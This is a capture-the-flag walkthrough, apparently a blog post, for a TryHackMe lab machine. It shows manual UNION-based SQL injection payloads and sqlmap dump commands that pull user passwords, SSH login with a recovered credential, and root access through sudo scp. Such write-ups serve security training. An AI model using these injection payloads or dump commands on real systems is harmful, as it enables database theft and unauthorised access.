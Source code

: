 ```yaml
---
date: 2025-01-09
categories: [CTF, THM]
title: "THM - Jurassic Park"
tags: ['nmap', 'privilege escalation', 'python', 'rce', 'sqli', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Jurassic Park - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Jurassic Park

NMAP

![image1](../resources/0d8486104815498dbb69eb0d08f9f0ce.png)

Website  `http://10.10.204.254/shop.php`

![image2](../resources/45ff848e4e2144b08d81a73bf66b9f3a.png)

- Clicking on one gives the following URL:

`http://10.10.204.254/item.php?id=3`

- If you remove the ?id=3 it results in:

![image3](../resources/f143690100104fe89cef2b27c46b7d6a.png)

- So we know it's MySQL

- Attempting to break it:

`http://10.10.204.254/item.php?id=3'`

or using Union

`http://10.10.204.254/item.php?id=3 UNION SELECT 1 --`


![image4](../resources/73d44746390b456287aab5787447fd81.png)


![image5](../resources/1ad2d0b6688546db8b2fe5c0735fd687.png)

- I randomly changed the id=100  `http://10.10.204.254/item.php?id=100`


![image6](../resources/912e630cebc14b458a3866468a8818e7.png)

Compared to (normal request ie. id=1):


![image7](../resources/31a7e397bc2d46e4a6cfd4c76ac26ece.png)

- Fuzzing the id field ?id=5

`http://10.10.204.254/item.php?id=5`


![image8](../resources/26983266b6fa45548a59b591a4548c36.png)

`http://10.10.204.254/item.php?id=5 union select 1`


![image9](../resources/b8c49afcc66540ed87671ed2043f9e6a.png)

```bash
union select 1,2,3,4,5

```

![image10](../resources/d7a3af7b686c4cb7878bd5940a5c5ca5.png)

- 2 and 4 are being reflected so:
  
```bash
union select 1,database(),3,version(),5

```

![image11](../resources/a2527e647a984555a29acdf0855d8e6c.png)


![image12](../resources/09bc127294704ff9b5b1dc4fad73f19e.png)

- Fetch the users table from the database

```bash
?id=1 union select 1,2,3,group_concat(column_name),5 from information_schema.columns where table_schema = database() and table_name = "users"

```

![image13](../resources/4f29f6b27b164a3d88c4625aff32b250.png)

- Get column passwords from the table

```bash
?id=1 union select 1,2,3,password,5 from users

```

![image14](../resources/bcb29cdb94da432a9f681737285eba68.png)

- But it dared me to use SQLMap so...

- Open Burp and capture the request. Save the request to a file (burp)


![image15](../resources/e203c5678a324f6f9d0ff7cfaf21b647.png)

- Run SQLMap:

```bash
sqlmap -r burp --batch

```
- Found the following injection points:

![image16](../resources/b522cbfca79e43ff8d559b8bf7b8c3be.png)

- Or just dump the database (more noisy):

```bash
sqlmap -r burp --batch --dump

```

![image17](../resources/623dc3a0492240c188eba816bb16c36a.png)


![image18](../resources/e3e7e9b6bd3444ba8b48bfb6ef2a53ae.png)

**Dennis : ih8dinos**

- SSH with the credentials:
  
```bash
ssh dennis@10.10.204.254

```
- Enumeration:

```bash
sudo -l

```

![image19](../resources/3de621fb681d4d3bbde25c06b18bd1ed.png)

- We can run scp as sudo

- GTFOBins


![image20](../resources/8f9b2b08eeb1490eb1286d51671eddf9.png)


![image21](../resources/b635569cb6d54129be10089ed47bba69.png)

- Got Root

![image22](../resources/1b6e1e41bc804d6d9db55a4f46f4e11e.png)

- Stabilise:
  
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image23](../resources/0196f74cfb104313b16a28f7840ebe7f.png)

- Search for flags:
  
```bash
find / -name "flag\*" 2>/dev/null

```

![image24](../resources/b138f792a58e488283c75ffb24c7258c.png)


![image25](../resources/da975e6f85094c7493e8d327b1d95aa9.png)

- Found flag3 in:
/home/dennis/.bash_history
